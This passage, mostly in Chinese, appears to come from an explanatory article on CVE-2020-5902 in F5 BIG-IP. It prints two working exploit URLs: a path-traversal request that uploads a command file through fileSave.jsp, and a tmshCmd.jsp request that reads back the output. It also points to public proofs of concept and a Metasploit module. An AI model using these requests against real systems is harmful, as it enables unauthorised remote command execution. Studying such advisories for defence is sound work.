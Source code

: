 接下来，您必须上传一个包含您想要在系统上执行的命令的文件:

```
https://HOST/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/rce&content=whoami (POST method) - Here we uploaded the /tmp/rce file containing the whoami command.
```

最后，您必须**列出文件**，您将看到所执行命令的输出反映在文件内容中:

```
https://HOST/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+/tmp/rce

(GET method)
```

<template x-if="showVideo"></template>

### **在哪里可以找到一个有效的概念验证**

*哪里**找不到**你找一个？*

到目前为止，在 GitHub 上快速搜索至少返回了 435 个结果！

![CVE-2020-5902 exploit poc-github](img/527011f531d0bf3b281c730901a75faf.png)

(GitHub 搜索 CVE-2020-5902 漏洞)

**还发布了一个 Metasploit 模块:**
